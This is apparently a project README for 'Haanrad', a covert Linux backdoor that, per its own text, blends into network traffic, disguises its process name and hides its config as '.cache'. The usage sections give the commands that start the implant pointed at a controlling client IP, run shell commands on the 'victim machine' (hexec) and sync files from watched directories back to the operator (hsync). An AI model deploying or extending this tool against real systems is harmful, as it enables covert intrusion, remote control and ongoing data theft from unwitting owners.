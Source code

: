 #Haanrad
<b> FULL DISCLOSURE: THIS THING CAN DO BAD THINGS. UNLESS UR A BADMAN OR BATMAN, ITS STRONGLY ADVISED NOT TO BE USED </b>

Haanrad is a backdoor exfiltration system that allows a user to covertly exploit the installed system
haanrad is deployed to. Haanrad can be configured in numerous different ways and is designed to be
tolerant in most systems and adjust to the networks behavior as perceived by the victim machine in order
to "blend in". See the `Features` Section for details on functionality

#Setup

##Prerequisits
You must have cmake and gcc installed along with `libdnet` and `libpcap` development libraries installed in order to compile
Haanrad and the client. Note that Haanrad and the client will only work on the Linux based kernel and possibly some
versions of Mac or BSD

##Installation
Execute the following commands

1. clone the project and `cd` into the project root
2. Execute the following command `cmake .`
3. Then execute `make` if you are on Linux. This will generate all required programs in the project root under the `/bin` folder

##Usage
Run Haanrad with the following command from within the `/bin` folder
```
./haanrad -c <ipofclient> [--DEBUG] [--DOF] [--HINT] [-t <timetick>] [-h <historylength>]
```
The parameters are as follows:

| Parameter | Purpose                                                                                | Required ? | Config File Support ? | Default                          | Example      |
| --------- | -------------------------------------------------------------------------------------- | ---------- | --------------------- | -------------------------------- | ------------ |
| -c        | Give the dot notation IP of the client                                                 | Yes        | Yes                   | N/A                              | -c 127.0.0.1 |
| -t        | Give time cycles of Haanrad in milliseconds, lower values will make Haanrad run faster | No         | Yes                   | 100                              | -t 450       |
| -h        | Set History Length of how many packet Haanrad will store                               | No         | Yes                   | 100                              | -h 200       |
| --DEBUG   | Get Debug Console Out                                                                  | No         | No                    | Disabled                         | ---DEBUG     |
| --DOF     | Set Haanrad to use default name on rename failure                                      | No         | No                    | Previous name is used on failure | --DOF        |
| --HINT    | Append `-bd` to the process name chosen for Haanrad                                    | No         | No                    | Not Appended                     | --HINT       |
 
Run the client with the following command from within the `/bin` folder
```
./client [--DEBUG]`
```
The parameters are as follows:

| Parameter | Purpose                             | Required ? | Config File Support ? | Default  | Example |
| --------- | ----------------------------------- | ---------- | --------------------- | -------- | ------- |
| --DEBUG   | Print Debug Information To Console  | No         | No                    | Disabled | --DEBUG |
 
 
 ###Interactive Mode
 Upon Haanrad connecting to the client, interactive mode will enable. Making a number of commands available on the client. Each command has two layers,
 a client specific command, and a haanrad specific command, followed then by the haanrad command parameter. The command structure is as follows:
 ```
 <clientcommand> <haanradcommand> <haanradparam>
 ```
 The following client commands are available:

| Command | Purpose                          |
| ------- | -------------------------------- |
| send    | Send A Command To Haanrad        |
| check   | Check For Responses From Haanrad |

The `check` command in the above table does not have any haanrad commands or haanrad params excepted as check is used specificaly for checking
for any new responses from Haanrad. `send` though has several options available. They are:

| Command | Purpose                                      | Parameter                          |
| ------- | -------------------------------------------- | ---------------------------------- |
| hexec   | Execute a terminal command on Haanrad        | Command to be executed             |
| hlisten | Create/Remove a listener of a directory      | Dir to Create/Remove listenr       |
| hsync   | Create/Remove a sync listener of a directory | Dir to Create/Remove sync listener |

Note the difference between the `hlisten` and `hsync` commands. Executing an `hlisten` will cause Haanrad to setup an inotify listener
in the parameter passed directroy. When an event occurs in this directory, a response will be sent from Haanrad back to the client. Using
`hlisten` this is then all that will happen. The client will simply be notified that an event occurred. If the `hsync` command is used though,
the client will be both notified of the event occurring and will also be sent a copy of the changed file. 

During an `hsync`, the client will download and write the file to the local `sync` directory, that will be generated if it does not previous exist. 
The `sync` directory is orgnaized to emulate the root path of the victim machine thus any synced files will have their folder structure recreated 
within the `sync` folder to emulate that of the victim machine.

Additionaly to the above mentioned commands a number of house keeping commands are available during response failure from Haanrad. The below can be
useful when a transfer fails and the client's buffer is left in an unstable state. Note these command are independent to anything previously
mentioned and do not run under the `send` or `check` client commands. See the examples for clarification.

| Command  | Purpose                                                  |
| -------- | -------------------------------------------------------- |
| bufcheck | Prints the current content of the Client receive buffer  |
| bufclear | Clears the current contents of the Client receive buffer |

Some command examples:
```
# Execute ls on the victim machine
send hexec ls

# Setup a sync listener for directory /haanrad/secret/info
send hsync /haanrad/secret/info

#Clear the client buffer
bufclear

#Print the client buffer
bufcheck
```

###Config File Support
Haanrad supports some of the specified options to be declared within a configuration file. There is a very strict orientation
in how this file must be written in order to be picked up by Haanrad. The configuration file is only read at startup
and is never referred to afterwards. In order for the config file to be detected by haanrad it must be located in the same
location as the `haanrad` binary and named `.cache`. Settings are entered in the format of <key>=<value> with the key
being the supported flag listed above without the preceding dash (`-`). An example configuration file might look like this
```
c=127.0.0.1
t=150
```
Note there is no spacing at the beginning or end of the file, and no comments are accepted within the file. Invalid formatting
of the file may cause Haanrad to even crash and not load at all


